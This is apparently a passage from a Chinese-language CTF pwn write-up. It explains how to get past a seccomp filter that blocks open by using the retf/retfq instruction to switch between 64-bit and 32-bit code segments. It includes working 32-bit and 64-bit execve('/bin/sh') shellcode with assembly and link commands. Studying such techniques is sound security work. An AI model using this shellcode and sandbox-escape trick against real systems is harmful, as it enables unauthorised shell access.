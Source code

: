 ### RW 缺 O

#### 可以借助fstat()->利用retfq汇编指令切换至32位调用open

这里从网上实在找不到题目，就借用ex团长的一道题目进行理解分析吧，虽然原文章已经写的很好了，具体题目分析可以看一下参考链接**shellcode的艺术**中的**第六模块**

顺便讲一下`retf`这个汇编指令

*   CPU执行ret指令时,相当于进行
    
    ```plain
    pop IP
    ```
    
*   CPU执行retf指令时,相当于进行:
    
    ```plain
    pop IP
    pop Cs
    ```
    
*   32bit cs 0x23
    
    ```plain
    ;;nasm -f elf32 test_cs_32.asm 
    ;;ld -m elf_i386 -o test_cs_32
    global _start
    _start:
      push 0x0068732f
      push 0x6e69622f
      mov ebx,esp
      xor ecx,ecx
      xor edx,edx
      mov eax,11
      int 0x80
    ```
    
*   64bit cs 0x33
    
    ```plain
    ;;nasm -f elf64 test_cs_64.asm 
    ;;ld -m elf_x86_64 -o test_cs_64 test_cs_64.o
    global _start
    _start:
      mov r10,0x0068732f6e69622f
      push r10
      mov rdi,rsp
      xor rsi,rsi
      xor rdx,rdx
      mov rax,0x3b
      syscall
    ```
    

还有要注意一下，当从**64位切换到32位**的时候，64位下会push一个8byte的数
